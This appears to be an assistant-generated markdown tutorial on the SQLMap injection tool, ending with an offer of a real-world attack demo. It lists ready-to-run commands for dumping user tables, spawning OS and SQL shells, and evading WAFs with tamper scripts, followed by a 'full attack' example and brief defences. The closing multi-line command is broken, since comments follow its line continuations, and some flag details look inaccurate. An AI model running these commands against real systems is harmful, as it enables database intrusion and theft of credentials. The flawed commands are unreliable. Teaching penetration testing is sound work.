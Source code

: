 ### **SQLMap: The Ultimate SQL Injection Tool**

**SQLMap** is an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications. It supports a wide range of database management systems (DBMS) and injection techniques, making it a go-to tool for security professionals and ethical hackers.

---

## **Key Features of SQLMap**

1. **Automated SQL Injection Detection**

   - Tests parameters (GET/POST) for vulnerabilities.
   - Supports **Boolean-based**, **Time-based**, **Union-based**, and **Error-based** SQLi.

2. **Database Fingerprinting**

   - Identifies the backend DBMS (e.g., MySQL, PostgreSQL, MSSQL, Oracle).

3. **Data Extraction**

   - Dumps tables, columns, and records (e.g., usernames, passwords).
   - Supports **blind SQLi** (where results aren’t directly visible).

4. **Advanced Exploitation**

   - Bypasses WAFs (Web Application Firewalls) with tamper scripts.
   - Performs **OS command execution** (e.g., `--os-shell`).
   - Exfiltrates data via **DNS/HTTP requests** (out-of-band).

5. **Integration & Automation**

   - Works with **Burp Suite**, **ZAP**, and other proxies.
   - Supports **Google dorking** (`-g` option).

---

## **How SQLMap Works**

### **1. Basic Usage**

```bash
sqlmap -u "http://example.com/page?id=1" --batch
```

- `-u`: Target URL with a vulnerable parameter (`id=1`).
- `--batch`: Runs in non-interactive mode (skips prompts).

### **2. Database Enumeration**

#### **List All Databases**

```bash
sqlmap -u "http://example.com/page?id=1" --dbs
```

#### **Dump Tables from a Database**

```bash
sqlmap -u "http://example.com/page?id=1" -D database_name --tables
```

#### **Dump Data from a Table**

```bash
sqlmap -u "http://example.com/page?id=1" -D database_name -T users --dump
```

### **3. Advanced Exploitation**

#### **Get an Interactive SQL Shell**

```bash
sqlmap -u "http://example.com/page?id=1" --sql-shell
```

#### **Execute OS Commands (if DB permits)**

```bash
sqlmap -u "http://example.com/page?id=1" --os-shell
```

#### **Bypass WAFs with Tamper Scripts**

```bash
sqlmap -u "http://example.com/page?id=1" --tamper=space2comment
```

---

## **SQLMap Attack Techniques**

| **Flag**             | **Purpose**                                | **Example**                                       |
| -------------------- | ------------------------------------------ | ------------------------------------------------- |
| `--dbs`              | List all databases                         | `sqlmap -u "http://example.com?id=1" --dbs`       |
| `--tables`           | List tables in a database                  | `sqlmap -u "..." -D dbname --tables`              |
| `--columns`          | List columns in a table                    | `sqlmap -u "..." -D dbname -T users --columns`    |
| `--dump`             | Dump table data                            | `sqlmap -u "..." -D dbname -T users --dump`       |
| `--os-shell`         | Spawn an OS shell (if DB allows)           | `sqlmap -u "..." --os-shell`                      |
| `--level` / `--risk` | Adjust test intensity (1-5)                | `sqlmap -u "..." --level=3 --risk=3`              |
| `--tamper`           | Evade WAFs (e.g.,`space2comment`)          | `sqlmap -u "..." --tamper=space2comment`          |
| `--proxy`            | Route traffic through a proxy (e.g., Burp) | `sqlmap -u "..." --proxy="http://127.0.0.1:8080"` |

---

## **Defensive Measures Against SQLMap**

1. **Use Prepared Statements**
   ```python
   cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
   ```
2. **Deploy a WAF** (e.g., ModSecurity, Cloudflare).
3. **Limit Error Messages** (avoid exposing DB details).
4. **Restrict DB Permissions** (least privilege principle).
5. **Rate-Limit Requests** to slow down automated attacks.

---

## **Example: Full SQLMap Attack**

```bash
sqlmap -u "http://example.com/login.php?user=admin&pass=123" \
       --technique=B \          # Boolean-based blind
       --dbms=mysql \           # Target DBMS
       --dbs \                  # List databases
       --batch \                # Non-interactive
       --tamper=space2comment   # Evade WAF
```

---

### **Conclusion**

SQLMap is a powerful tool for detecting and exploiting SQL injection flaws. However, it should **only be used ethically** (e.g., penetration testing with permission).

Would you like a step-by-step demo of a real-world attack scenario?
